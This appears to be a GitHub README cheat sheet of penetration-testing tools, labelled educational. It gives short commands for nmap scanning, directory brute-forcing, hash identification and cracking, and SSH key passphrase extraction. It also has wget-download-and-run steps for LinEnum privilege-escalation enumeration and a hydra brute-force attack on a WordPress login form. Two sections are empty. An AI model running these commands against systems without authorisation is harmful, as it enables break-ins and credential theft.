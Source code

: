 # AHackersToolbox
A list of Penetration Testing (Hacking) tools that can be used, as well as some helpful information and examples. For educational purposes only.

**Note**: No download procedures means it comes with kali linux.

![Monty Python](intruder.png) ![Monty Python](intruder.png)


Searchspoit
-----------

```
searchsploit -w wordpress 4.x
```


Nmap
----
Network scanning tool: Use this to identify open ports, running services and other information about the server.

```
nmap -v -A 1.2.3.4
```


DIRB
----
Web scanner. Use this to find file paths, directories, etc; of content on a webapp

```
dirb -w http://1.2.3.4
```


Enum4Linux
----------

```
```


Aircrack-ng
-----------
Brute force WiFi password cracking.

```
```


HashID
------
Use this to assist in determining what type of hash is being dealt with. The output of this can help you determine settings needed in hashcat or johntheripper

```
hashid -m -j hash.txt
```


SSH2John
--------
Strip an ssh2 format private key file of its encryption hash for cracking with JohnTheRipper.

Note: Private key files (ex. id_rsa) can be password protected to help secure them in case they are lost/stolen, ssh2john retrieves the hashed password.

**Download and Run**
```
wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
python ssh2john.py id_rsa > id_rsa.hash
```


JohnTheRipper
-------------
Brute force password cracking of hashed passwords

```
john --wordlist=/path/to/wordlist.txt --format=format hash.txt
```


HashCat
-------
Bruce force password cracking of hashes

```
hashcat -m 3200 hash.txt /path/to/wordlist
```


LinEnum
-------
Use this to assist in locating potential methods of privelege escalation on linux.

**Download, make executable, and run**
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh -s -r report -t
```


Hydra
-----
Network brute force login cracker

```
hydra -l Elliot -P fsocity.dic 10.10.103.0 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.103.0%2Fwp-admin%2F&testcookie=1:F=is incorrect'
```

